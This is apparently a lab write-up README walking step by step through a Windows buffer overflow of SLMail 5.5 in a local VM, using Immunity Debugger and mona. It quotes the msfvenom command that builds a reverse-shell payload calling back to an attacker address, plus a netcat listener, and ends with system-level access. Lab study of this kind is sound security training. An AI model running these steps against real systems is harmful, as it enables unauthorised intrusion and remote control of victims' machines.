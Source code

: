 # Windows Buffer Overflow

## Objective:
This project is centered on understanding and executing a Windows buffer overflow. By targeting a specific Windows virtual machine, the project aimed to shed light on the intricacies of buffer overflow vulnerabilities in a Windows environment, emphasizing the steps and tools necessary to exploit such flaws. The key objectives of the project are detailed below:
- **Manual Buffer Overflow:** Engaging in a step-by-step process to perform a buffer overflow against a Windows target, understanding the specific conditions and elements that lead to successful exploitation.
- **Immunity Debugger Integration:** Leveraging the Immunity Debugger to trace and understand the buffer overflow process in real time. This involved attaching specific processes to the debugger and observing program behavior during exploitation attempts.
- **Character Testing and EIP Control:** Using a fuzzer script to determine the exact point of EIP overwrite, followed by a systematic approach to identifying and removing bad characters to ensure the crafted payload's effectiveness.
- **Payload Crafting and Exploitation:** Utilizing MSFvenom to generate a specific payload, followed by setting breakpoints and adjusting scripts to gain control over the program's execution. Successfully exploiting the vulnerability led to obtaining a reverse shell on the target machine.

## Walkthrough:
- Initialized the BOF machine, accessed the command prompt as an administrator, and ran “slmgr /rearm” and “ipconfig” to determine the machine's IP address as “10.0.2.10”.



- Installed “12f1ab027e5374587e7e998c00682c5d-SLMail55_4433.exe” on the Windows VM, rebooted it, and created a desktop shortcut for “SLmail.cpl”.



- Opened both “SLmail.cpl” & “Immunity debugger” with administrative rights.



- In “Immunity debugger”, attached the “SLmail.exe” file and ensured it's actively running.



- On my Kali machine, downloaded the fuzzer script labeled “fuzzerScript.py” and stored it in a “BOF” folder on my desktop.



- In the same folder, created and edited a file named “fuzzy.py”. Line 13 requires the target IP address and port number.



- Conducted an nmap scan on the target VM to confirm open ports and noted the active “pop3” protocol.



- Updated “fuzzy.py” with the target IP address and port, then saved changes.



- Navigated to the BOF directory and executed the “fuzzy.py” script using the “python2 fuzzy.py” command.



- Observed the EIP update to “41414141” in Immunity debugger.



- Generated an MSF pattern of 3000 bytes using the “msf-pattern_create -l 3000” command to pinpoint control flow locations.



- Updated the “fuzzy.py” script's buffer with the generated MSF pattern and removed unnecessary loops.



- Reset SLmail.cpl and the Immunity debugger, re-executed the “fuzzy.py” script, and noted the updated EIP value in Immunity debugger.



- Determined the exact memory offset using the “msf-pattern_offset -l 3000 -q 39694438” command.



- Validated the offset by adjusting the buffer in “fuzzy.py” and observing the Immunity debugger's EIP value.



- Incorporated a list of potential bad characters into the “fuzzy.py” buffer to refine the exploit.



- Re-executed the adjusted “fuzzy.py” script and followed the ESP in dump within Immunity debugger to identify and remove any bad characters.



- Identified certain characters as "bad" and removed them from the "fuzzy.py" buffer.



- Re-executed the "fuzzy.py" script with the refined buffer and monitored the outcome in Immunity debugger.



- Searched for mona modules using the “!mona modules” command and identified a suitable dll with “!mona find -s "\xff\xe4" -m SLMFC.DLL”.



- Crafted a shell code using the “msfvenom -p windows/shell_reverse_tcp LPORT=4444 LHOST=10.0.2.6 -f c -b "\x00\x0a\x0d"” command.



- Integrated the shell code into “fuzzy.py” and adjusted the buffer accordingly.



- Established a netcat listener on the Kali machine using “nc -lvp 4444”.



- Restarted SLmail, ran the “fuzzy.py” script, and achieved system access with highest-level permissions as confirmed by the “whoami” command.


